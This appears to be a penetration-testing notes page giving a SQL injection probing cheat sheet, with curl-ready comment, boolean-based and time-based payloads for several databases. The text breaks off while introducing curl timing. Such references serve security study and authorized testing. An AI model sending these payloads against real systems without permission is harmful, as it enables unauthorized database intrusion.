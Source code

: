 ```yaml
---
{"dg-publish":true,"permalink":"/itsi/tools/attackflows/sqli-probing/"}
---
```


# SQLi Probing
## 1. Comment Probes

| Probe         | Purpose                                                                                | Command (`curl`)                     |
| ------------- | -------------------------------------------------------------------------------------- | ------------------------------------ |
| `'`           | **Single Quote:** The most common probe. Tries to close a string literal prematurely.  | `-d "username=admin'&password=x"`    |
| `"`           | **Double Quote:** Use if single quotes don't work (e.g., MySQL with ANSI_QUOTES mode). | `-d "username=admin\"&password=x"`   |
| `'--` or `'#` | **Comment:** Tries to inject a quote and then comment out the rest of the query.       | `-d "username=admin'-- &password=x"` |
| `';`          | **Semicolon:** Tests if stacked queries are allowed.                                   | `-d "id=1'; SELECT 1"`               |
| `\`           | **Backslash:** Tries to escape a character and break the query syntax.                 | `-d "username=admin\&password=x"`    |

**Goal:** Any database error message, a generic server error (HTTP 500), or a weirdly rendered page.

---

## 2. Boolean-Based Probes

|Condition|Probe|Expected Result if Vulnerable|
|---|---|---|
|**TRUE**|`1' OR '1'='1` `1 OR 1=1`|The page looks **normal**, as if you just requested `id=1`. The logic is `(id=1) OR (TRUE)`.|
|**FALSE**|`1' AND '1'='2` `1 AND 1=2`|The page shows **"not found," "invalid item,"** or different content. The logic is `(id=1) AND (FALSE)`.|

**Goal:** A consistent difference between the TRUE and FALSE responses.

---

## 3. Time-Based Probes

|Database|Payload Example (causes a 5-second delay)|
|---|---|
|**MySQL**|`1' AND (SELECT SLEEP(5))--`|
|**PostgreSQL**|`1' AND pg_sleep(5)--`|
|**SQL Server**|`1'; WAITFOR DELAY '0:0:5'--`|
|**Oracle**|`1' AND DBMS_LOCK.SLEEP(5)--`|
|**SQLite**|`1' AND LIKE('ABC',UPPER(HEX(RANDOMBLOB(100000000))))--` (This is a heavy query, not a direct sleep function)|
**Goal:** A significant delay in the server's response time that matches the sleep command you sent. Use `curl`'s `-w` flag to measure it: